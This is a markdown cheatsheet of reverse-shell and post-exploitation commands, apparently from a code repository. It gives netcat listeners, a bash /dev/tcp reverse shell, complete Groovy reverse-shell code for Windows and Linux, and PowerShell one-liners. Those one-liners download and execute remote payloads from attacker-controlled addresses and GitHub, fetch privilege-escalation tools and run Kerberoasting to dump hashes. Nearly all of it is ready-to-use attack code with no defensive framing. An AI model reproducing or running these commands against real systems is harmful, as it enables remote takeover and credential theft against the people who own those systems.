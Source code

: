 # Netcat Cheatsheet

## Open Netcat Server

- nc -lv localhost 8782
- ncat -lvnp 1234

## target windows

- stty raw -echo; (stty size; cat) | ncat -lvnp 1337

## Spawn Ngrok Server

- ngrok tcp 8782

## Payload Client

- <https://www.revshells.com>
- <https://bit.ly/3yNL1hg>
- sh -i >& /dev/tcp/10.9.2.251/1234 0>&1

## Spawn TTY

- python -c 'import pty; pty.spawn("/bin/sh")'
- python -c 'import pty; pty.spawn("/bin/bash")'

## Spawn python server

python3 -m http.server 9000

## Groovy :

- Windows
String host="10.9.2.251";
int port=1234;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

- Linux
String host="10.9.2.251";
int port=1234;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();


## powershell cheatsheet

- powershell IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.168.173 1337

- powershell iex (New-Object Net.WebClient).DownloadString('http://10.9.2.251:9000/payload/windows/revshellwindow.ps1');Invoke-ConPtyShell 10.9.2.251 1338

- powershell iex (New-Object Net.WebClient).DownloadString('http://10.9.2.251:9000/payload/windows/revshellwindowold.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 10.9.2.251 -Port 1338

- powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.1.25:9000/payload/payload.bat','payload.bat')"

- powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.1.25:9000/linpeas/peass.exe','peass.exe')"

- Start-Process "payload.bat"

- powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.2.251:9000/payload/windows/kerberoast.ps1','powerup.ps1')"

- powershell iex (New-Object Net.WebClient).DownloadString('http://10.9.2.251:9000/payload/windows/kerberoast.ps1'); Invoke-Kerberoast -OutputFormat hashcat ​ |fl
